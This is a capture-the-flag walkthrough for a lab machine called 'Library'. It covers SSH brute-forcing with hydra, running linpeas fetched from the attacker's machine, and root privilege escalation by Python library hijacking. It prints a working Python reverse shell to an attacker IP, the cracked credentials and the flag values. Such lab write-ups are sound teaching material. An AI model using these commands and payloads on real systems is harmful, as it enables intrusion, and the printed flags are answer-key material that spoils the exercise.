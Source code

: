# Library - Easy

```shell
nmap -T4 -p- -A -v 10.10.243.23

feroxbuster -u http://10.10.243.23 -w /usr/share/wordlists/dirb/common.txt -x php,html,bak,js,txt,json,docx,pdf,zip --extract-links --scan-limit 2 --filter-status 401,403,404,405,500 --silent

hydra -l meliodas -P /usr/share/wordlists/rockyou.txt 10.10.243.23 ssh -t 30
#brute force ssh

ssh meliodas@10.10.243.23
#use password found

#get user flag

cd /tmp

#in attacker machine
python3 -m http.server

#in victim ssh
wget http://10.14.31.212:8000/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh

sudo -l
#we can run bak.py with Python as root

cd

cat bak.py

echo $PATH

#use python library hijacking method
#hijack the zipfile library
vi zipfile.py

cat zipfile.py

#setup listener in attacker machine
nc -nvlp 4445

#run the sudo command
sudo /usr/bin/python /home/meliodas/bak.py

#we get root shell at listener
```

```python
#!/usr/bin/env python
import socket
import subprocess
import os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.14.31.212",4445))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

* Open ports & services:

  * 22 - ssh - OpenSSH 7.2p2 (Ubuntu)
  * 80 - http - Apache httpd 2.4.18

* We can begin enumerating the webpage directories while exploring the webpage content.

* The webpage content seems to be just ipsum lorem text, but there are some directories and pages enumerated:

  * /logo.png
  * /images
  * /robots.txt

* /robots.txt has User-agent written as 'rockyou'; the /images and logo.png do not contain anything significant.

* As we have only one other service (ssh) accessible, and the clue 'rockyou' is given - maybe it is hinting towards ssh brute-forcing.

* From the webpage, we have the name of the author as 'meliodas', could be the user.

* Using ```hydra```, we can attempt to brute-force SSH using username 'meliodas' and wordlist rockyou.txt - and it works.

* We get the creds meliodas:iloveyou1 with the help of hydra, and now we can log into SSH.

* After getting user flag, we can begin enumeration - we can use linpeas.

* Using ```sudo -l```, we can run the following command as sudo:

  ```(ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py```

* Now, inspecting bak.py, we cannot modify the file, however we can note that the PATH variable contains our home directory.

* This means we can use Python library hijacking for privilege escalation.

* The bak.py script uses two libraries - os and zipfile - we can hijack any library by creating a malicious Python file of the same name.

* By inserting reverse shell code in Python (for Linux) in ```zipfile.py```, we can run the sudo command; and we will get reverse shell as root at our listener.

```markdown
1. user.txt - 6d488cbb3f111d135722c33cb635f4ec

2. root.txt - e8c8c6c256c35515d1d344ee0488c617
```
